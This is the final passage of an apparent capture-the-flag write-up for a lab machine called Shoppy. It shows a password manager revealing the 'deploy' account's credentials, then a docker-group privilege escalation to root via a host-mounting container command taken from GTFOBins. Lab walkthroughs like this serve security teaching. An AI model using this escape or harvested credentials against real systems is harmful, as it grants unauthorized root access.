 Let's submit the password:

```bash
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

We got `deploy`'s password. Let's ssh as deploy.

![](14.png)

Right away we see that `deploy` is part of `docker` group. Let's check for available docker images.

```bash
$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    d7d3d98c851f   6 months ago   5.53MB
```

`alpine` is available, so let's go to [GTFOBins](https://gtfobins.github.io/gtfobins/docker/#shell)

![](15.png)

We can run the following command and get root.

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![](16.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
